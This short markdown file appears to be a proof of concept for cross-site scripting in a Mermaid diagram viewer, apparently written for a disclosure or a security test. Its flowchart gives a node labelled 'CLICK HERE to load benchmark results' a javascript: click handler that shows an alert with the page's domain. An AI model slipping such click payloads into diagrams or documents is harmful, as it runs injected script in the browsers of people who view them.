

# F1 — mermaid on-click XSS PoC

Open this file in the anonymized viewer, then **click the node**:

```mermaid
flowchart LR
  R["CLICK HERE to load benchmark results"]
  click R "javascript:alert('F1 mermaid XSS on '+document.domain)"
```
